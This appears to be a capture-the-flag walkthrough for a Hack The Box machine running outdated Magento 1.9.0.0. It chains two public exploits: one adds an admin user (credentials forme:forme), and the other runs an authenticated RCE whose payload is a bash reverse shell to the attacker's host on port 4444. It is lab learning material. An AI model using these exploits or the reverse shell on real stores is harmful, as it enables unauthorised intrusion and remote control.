





# 10 - HTTP


# Initial response



# /etc/hosts

```bash
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot


10.10.10.140 swagshop.htb

::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
```


# swagshop.htb



Right off the bat we see Magento. It is an open source ecommerce CMS written in php. The server seems to be running an outdated version of it from 2014 as we can see it at the bottom of the page. Index.php can be misleading because it is a directory rather than a php file.

# Magento




There is a ton of vulnerabilities related to Magento. There are actually two exploits we have to run to get code execution. The first one is `Magento eCommerce - Remote Code Execution`. Rather than executing arbitrary code, the exploit does only one thing, that is; adding an admin user to the database. Once we are done with adding a user, using`Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution`, finally we can execute arbitrary code.

# Magento eCommerce - Remote Code Execution
```py
target = "http://swagshop.htb/"
target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"
```

A couple of lines has to change in each for the exploits to work.

# Execute
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/swagshop]
└──╼ $ python2 37977.py 
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```


Credentials for me:

* forme:forme


# Admin Panel




If you pay attention to the bottom of the screen, you can see exact version information and that is `Magento ver. 1.9.0.0`. I mistakenly cut it out from my screenshot. Before we start poking around the website, let's prepare our rce payload because we know that it is an outdated software, no need to hunt misconfigurations or something.


# Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution


```bash
# 37811.py
target = 'http://swagshop.htb/index.php/admin/'
arg = 'bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"'
username = 'forme'
password = 'forme'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
#br.form.new_control('text', 'login[username]', {'value': username})  # comment out this line
```


```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/swagshop]
└──╼ $ python2 37811.py 
```

# Shell

